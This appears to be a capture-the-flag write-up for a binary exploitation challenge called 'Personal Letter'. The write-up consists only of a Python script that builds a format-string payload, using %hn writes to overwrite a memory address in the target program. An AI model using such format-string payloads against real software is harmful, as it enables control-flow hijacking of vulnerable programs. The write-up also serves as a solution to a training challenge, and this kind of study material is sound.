 # Personal Letter

**Category:** Binary Exploitation
**Points:** 160
**Description:**


> Have you ever gotten tired of writing your name in the header of a letter? Well now there's a program (source)to do it for you! Navigate to /problems/letter/ on the shell server to try your exploit out!

## Write-up

```python
import struct
number = 0x804872b
addr = 0x0804a02c

towritel = (number & 0xFFFF)
towriteh = ((number & 0xFFFF0000)>>16)

payload = ""
payload += struct.pack('<I',addr)
payload +=  struct.pack('<I',addr+2)
payload += "%{}x|%26$hn".format(towritel-17)
payload += "%{}x|%27$hn".format(towriteh-towritel-433)
print payload

```


